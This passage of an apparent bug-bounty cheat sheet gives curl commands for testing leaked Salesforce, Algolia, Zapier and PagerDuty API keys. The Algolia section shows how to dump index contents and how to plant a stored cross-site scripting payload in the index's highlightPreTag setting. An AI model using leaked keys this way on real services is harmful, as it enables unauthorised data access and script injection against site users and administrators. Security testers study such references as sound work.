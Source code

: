 ## [Salesforce API key](https://developer.salesforce.com/docs/atlas.en-us.api_rest.meta/api_rest/quickstart_oauth.htm)
```
curl https://instance_name.salesforce.com/services/data/v20.0/ -H 'Authorization: Bearer access_token_here'
```

## [Algolia API key](https://www.algolia.com/doc/rest-api/search/#overview)

If the key has the `listIndexes` permission, you can list indexes with:
```
curl --request GET \
  --url https://<example-app-id>-1.algolianet.com/1/indexes/ \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-appid>'
```

Otherwise you will have to know the name of an index (check the app source code or the requests it does). Then to enumerate its content:
```
curl --request GET \
  --url https://<example-app-id>-1.algolianet.com/1/indexes/<example-index> \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-appid>'
```

Be cautious when running this command, since the payload might execute within an administrative environment, depending on what index you are editing the `highlightPreTag` of. It's recommended to use a more silent payload (such as XSS Hunter) to prove the possible cross-site scripting attack.

```
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```

## [Zapier Webhook Token](https://zapier.com/help/how-get-started-webhooks-zapier/)
```
curl -H "Accept: application/json" -H "Content-Type: application/json" -X POST -d '{"name":"streaak"}' "webhook_url_here"
```

## [Pagerduty API token](https://support.pagerduty.com/docs/using-the-api)
```
curl -H "Accept: application/vnd.pagerduty+json;version=2"  -H "Authorization: Token token=TOKEN_HERE" -X GET  "https://api.pagerduty.com/schedules"
```
